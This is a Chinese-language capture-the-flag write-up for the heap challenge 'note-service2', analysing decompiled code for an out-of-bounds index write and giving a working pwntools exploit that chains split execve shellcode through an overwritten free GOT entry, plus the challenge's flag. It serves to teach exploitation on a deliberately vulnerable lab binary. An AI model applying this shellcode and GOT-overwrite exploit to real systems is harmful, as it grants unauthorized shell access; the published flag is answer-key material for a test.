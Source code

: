 # note-service2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=37283c31-c91e-4680-ac5b-6652b8237ecd_2&task_category_id=2)

关于堆的pwn题我就没做超过5道。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    Canary found
    <br>NX:       NX disabled
    <br>PIE:      PIE enabled
    <br>RWX:      Has RWX segments

```c
void Main(void)
{
  undefined4 uVar1;
  do {
    PrintMenu();
    printf("your choice>> ");
    uVar1 = GetInput();
    switch(uVar1) {
    default:
      puts("invalid choice");
      break;
    case 1:
      AddNote();
      break;
    case 2:
      NoImplement();
      break;
    case 3:
      NotImplement();
      break;
    case 4:
      DelNote();
      break;
    case 5:
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```

只有两个功能，4个选项里两个没写。先看AddNote。

```c
void AddNote(void)
{
  int iVar1;
  int iVar2;
  void *pvVar3;
  if ((-1 < DAT_0030209c) && (DAT_0030209c < 0xc)) {
    printf("index:");
    iVar1 = GetInput();
    printf("size:");
    iVar2 = GetInput();
    if ((-1 < iVar2) && (iVar2 < 9)) {
      pvVar3 = malloc((long)iVar2);
      *(void **)(&DAT_003020a0 + (long)iVar1 * 8) = pvVar3;
      if (*(long *)(&DAT_003020a0 + (long)iVar1 * 8) == 0) {
        puts("malloc error");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      printf("content:");
      WriteSth(*(undefined8 *)(&DAT_003020a0 + (long)iVar1 * 8),iVar2);
      DAT_0030209c = DAT_0030209c + 1;
    }
  }
  return;
}
```

ghidra真的是抽象大师，跟ida的伪代码比起来简直乱七八糟，但是当你以为这个伪代码是错的时候，对照ida仔细读一遍会发现竟然没毛病。iVar2是要申请堆块的长度，必须小于9，因为是整数所以最大只有8。DAT_003020a0是堆的地址，*(void **)(&DAT_003020a0 + (long)iVar1 * 8) = pvVar3;这行代码是把DAT_003020a0中的指针指向刚刚malloc的puVar3。如果这段指针是0说明大小不够了，提示malloc error；否则把输入的content放到iVar1索引下的堆空间中。

iVar1可以随意控制，因此此处有索引越界问题。我们不仅可以控制堆里的内容，还可以控制堆外面的内容，比如填个负索引，以DAT_003020a0作为偏移就写入到其他的地方去了。所以我们要干什么呢？checksec的nx没开，说明堆栈可执行，也就是我们可以写shellcode，把shellcode写在堆里怎么样？

有个问题，每个堆最大8字节，\0要拿去做结尾，又吃掉了一字节，所以只剩下7字节可以写。不可能找到只长7字节的shellcode，所以要发挥缝合怪的能力，多拿几个堆把shellcode分成几段写入，然后连在一起。先选个不错的shellcode，越短越好，我们的空间是有限的。从[这里](https://blog.csdn.net/qq_42728977/article/details/103914342)找到的shellcode。

![shellcode](../../images/shellcode.png)

每个堆放一行shellcode，然后用jmp语句连在一起。jmp的语法是jmp short xxx，xxx=目标地址-当前地址-2。目标地址怎么算？难道就是每次加8个字节？并不是。堆的分配一次最小给16个字节，申请8个字节系统还是会给你16个字节。堆由prev_size、size、fd、bk组成，fd和bk是数据，加起来16字节；prev_size加size还有16字节，所以是32字节。

![heap](../../images/heap.png)

[参考](https://blog.csdn.net/seaaseesa/article/details/103003167)

所以费尽心思写shellcode拼shellcode，怎么调用呢？

```c
void DelNote(void)
{
  int iVar1;
  printf("index:");
  iVar1 = GetInput();
  free(*(void **)(&DAT_003020a0 + (long)iVar1 * 8));
  return;
}
```

你看这个free，接收一个参数，保护只有Partial RELRO。我们的shellcode正好缺一个传参数的地方，这不明摆着让我们改free的got表吗？把free的got地址改成堆的地址，下一次调用free的时候其实是调用了堆里写的shellcode。找一下堆和free的got的偏移。

XREF[2]:     free:00100890(T), free:00100890(c), 00302018(*)  

ghidra点击free然后划到右边可以看见这三行。标着*的就是free的got表地址。堆的地址更直白了，ghidra里命名是按地址命名的，所以那个堆的地址就是0x003020a0。(0x3020A0-0x302018)//8=17，堆比free高所以偏移是-17。来写[exp](https://blog.csdn.net/qq_42728977/article/details/103914342)。我稍微改了一下。

```python
from pwn import *
r = remote("61.147.171.105", 58388)
def add(idx, content):
    r.sendlineafter(b"your choice>> ", b"1")
    r.sendlineafter(b"index:", idx)
    r.sendlineafter(b"size:", b"8")
    r.sendlineafter(b"content", content)
def delete(idx):
    r.sendlineafter(b"your choice>> ", b"4")
    r.sendlineafter(b"index:", idx)
add(b"0", b"/bin/sh")
add(b"-17", b'\xb8;\x00\x00\x00' + b"\xeb\x19")
add(b"1", b'H1\xf6' + b"\x90\x90\xeb\x19")
add(b"2", b'H1\xd2' + b"\x90\x90\xeb\x19")
add(b"3", b'\x0f\x05' + b"\x90" * 5)
delete(b"0")
r.interactive()
```

本机无法编译shellcode，所以先用下面的脚本打印出来shellcode然后抄上去。

```python
from pwn import *
context( arch="amd64", os="linux")
print(asm("mov eax, 0x3b"))
print(asm("xor rsi, rsi"))
print(asm("xor rdx, rdx"))
print(asm("syscall"))
```

context必须要加，因为不加默认不是amd64，会编译不出来。\x90是nop，\xeb\x19是jmp。nop只是为了填充不够长的shellcode部分的。

- ### Flag
  > cyberpeace{8143968865d2a2ff00e13b074e090ec2}